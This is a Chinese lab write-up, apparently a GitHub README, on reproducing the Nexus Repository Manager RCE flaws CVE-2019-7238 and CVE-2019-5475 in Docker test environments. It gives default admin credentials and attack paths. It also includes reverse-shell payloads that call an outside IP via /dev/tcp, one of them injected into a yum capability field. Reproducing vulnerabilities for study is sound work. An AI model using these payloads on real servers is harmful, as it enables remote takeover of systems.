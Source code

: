 vulhub上有3.x版本的漏洞环境，尝试自己搭一个2.x版本的

# Nexus Repository Manager 3.x RCE (CVE-2019-7238)

vulhub环境 https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2019-7238

`docker-compose up -d`   启动环境 <3.15

POC：https://github.com/mpgn/CVE-2019-7238

1. 登录admin账户（默认为admin/admin123）
2. 初始环境需要上传一个jar包，生成环境应该不需要此操作
3. `bash -i >& /dev/tcp/xx.xx.xx.xx/xxxxx 0>&1`反弹shell 

![CVE-2019-7238](./image/CVE-2019-7238.gif)



# Nexus Repository Manager 2.x RCE (CVE-2019-5475)

CVE编号：`CVE-2019-5475`

> Nexus Repository Manager OSS <= 2.14.13 
>
> Nexus Repository Manager Pro <= 2.14.13

编写docker-compose.yaml

```yaml
version: '3'
services:
 web:
   image: sonatype/nexus:2.12.1-01
   ports:
    - "8081:8081"
```

`docker-compose up -d`   启动环境 

漏洞点在yum插件，该插件是内置的，但是只有admin用户组才能利用此漏洞。其中createrepo 和mergerepo都可以触发漏洞

![yum](./image/yum.png)

触发点在`nexus-public/plugins/yum/nexus-yum-repository-plugin/src/main/java/org/sonatype/nexus/yum/internal/capabilities/YumCapability#validate`

![code](./image/code.png)

因为拼接命令时后面有个`--version`,所以要用`&`把后面的分开，要不会执行不了前面的命令。

value处的payload为`bash -c $@|bash 0 echo bash -i >& /dev/tcp/10.0.9.99/55555 0>&1 &`

![CVE-2019-5475](./image/CVE-2019-5475.gif)

## ATTENTION

12.x是默认没有nexus目录的

即12.x攻击路径为`/service/siesta/capabilities`

14.x攻击路径是`/nexus/service/siesta/capabilities`

poc要修改一下

# 参考链接

1. https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2019-7238
2. https://www.secpulse.com/archives/112290.html
3. https://github.com/mpgn/CVE-2019-7238
4. https://mp.weixin.qq.com/s/E_BEp-yYKtIYAnQ6JP7fmg
5. https://github.com/shadowsock5/Poc/blob/master/nexes-manager/CVE-2019-5475.py

# 声明

本文仅供学习交流，如作他用所承受的法律责任一概与作者无关